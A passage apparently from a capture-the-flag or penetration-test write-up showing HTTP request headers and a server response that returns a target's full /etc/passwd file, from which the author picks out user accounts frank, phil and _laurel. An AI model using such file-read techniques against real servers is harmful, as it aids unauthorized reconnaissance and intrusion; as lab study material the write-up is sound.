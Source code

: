 ```shell

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Connection: close

Upgrade-Insecure-Requests: 1

````

- based on this search I managed to find the user information for frank, phil and _laurel_
```shell
HTTP/1.1 200 

Accept-Ranges: bytes

Content-Type: image/jpeg

Content-Length: 1986

Date: Fri, 14 Apr 2023 13:00:49 GMT

Connection: close



root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
frank:x:1000:1000:frank:/home/frank:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
phil:x:1001:1001::/home/phil:/bin/bash
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:997:996::/var/log/laurel:/bin/false
```